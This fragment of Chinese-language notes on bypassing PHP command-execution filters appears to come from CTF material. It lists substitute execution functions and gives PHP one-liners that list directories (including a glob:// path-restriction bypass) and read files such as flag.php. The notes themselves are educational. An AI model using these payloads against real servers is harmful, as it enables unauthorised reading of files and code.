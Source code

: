```
*
？
```

### 2. GET POST传参绕过

### 3.寻找代替函数

#### 0x01 命令执行

```
passthru
system
show_source
```

#### 0x02 查看当前目录下文件

```
$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}
```

glob协议甚至还可以绕过路劲限制

```
$a=opendir("./"); while (($file = readdir($a)) !== false){echo $file . "
"; };
```

```
print_r(scandir(dirname(__FILE__)));
print_r(next(array_reverse(scandir(dirname(__FILE__)))));
c=highlight_file(next(array_reverse(scandir(dirname(__FILE__)))));
```

```
opendir $a=opendir("./"); while (($file = readdir($a)) !== false){echo $file . "
"; };
```

//这里做一个解释`file — 把整个文件读入一个数组中`

fread()
fgets()
fgetc()
fgetss()
fgetcsv()
fpassthru()

`tee`最基本的用法就是显示输出结果并且保存内容到文件中。

**高亮返回**

```
show_source("flag.php");
highlight_file("flag.php");
```
